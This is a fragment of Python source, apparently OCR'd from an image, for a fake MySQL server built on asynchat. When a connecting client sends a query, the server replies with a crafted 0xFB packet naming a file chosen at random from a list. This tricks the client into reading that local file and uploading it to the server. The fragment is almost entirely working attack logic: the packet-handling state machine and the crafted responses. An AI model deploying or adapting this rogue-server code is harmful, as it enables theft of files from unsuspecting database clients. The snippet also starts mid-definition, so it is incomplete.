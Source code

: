 ```python
        )
        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
                        raise LastPacket()
                    elif packet.payload[0] in '\x02':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
```
